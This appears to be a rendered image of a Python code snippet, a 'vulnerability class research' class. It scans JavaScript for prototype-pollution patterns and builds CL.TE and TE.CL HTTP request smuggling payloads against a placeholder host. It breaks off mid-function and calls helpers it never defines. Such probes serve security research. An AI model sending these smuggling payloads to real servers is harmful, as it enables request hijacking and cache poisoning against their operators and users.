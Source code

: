 **Novel Vulnerability Class Research**:
```python
# Research new vulnerability patterns
class VulnerabilityClassResearch:
    def __init__(self):
        self.novel_patterns = []
        
    def research_prototype_pollution(self, javascript_code):
        """Research prototype pollution vulnerabilities"""
        patterns = [
            r'obj\[([^\]]+)\]\s*=',  # Direct assignment
            r'merge\s*\([^)]*\)',      # Merge operations
            r'extend\s*\([^)]*\)',     # Extend operations
            r'assign\s*\([^)]*\)',     # Object.assign
        ]
        
        vulnerabilities = []
        for pattern in patterns:
            matches = re.findall(pattern, javascript_code)
            for match in matches:
                if self.is_user_controlled(match):
                    vuln = {
                        'type': 'Prototype Pollution',
                        'pattern': pattern,
                        'location': match,
                        'exploit': self.generate_pp_exploit(match)
                    }
                    vulnerabilities.append(vuln)
        
        return vulnerabilities
    
    def research_request_smuggling(self, server_config):
        """Research HTTP request smuggling vulnerabilities"""
        smuggling_vectors = []
        
        # CL.TE smuggling
        clte_payload = (
            "POST / HTTP/1.1\r\n"
            "Host: vulnerable.com\r\n"
            "Content-Length: 6\r\n"
            "Transfer-Encoding: chunked\r\n"
            "\r\n"
            "0\r\n"
            "\r\n"
            "G"
        )
        
        # TE.CL smuggling
        tecl_payload = (
            "POST / HTTP/1.1\r\n"
            "Host: vulnerable.com\r\n"
            "Content-Length: 3\r\n"
            "Transfer-Encoding: chunked\r\n"
            "\r\n"
            "1\r\n"
            "G\r\n"
            "0\r\n"
            "\r\n"
        )
        
        # Test different combinations
        if self.test_smuggling(clte_payload):
            smuggling_vectors.append(('CL.TE', clte_payload))
        
```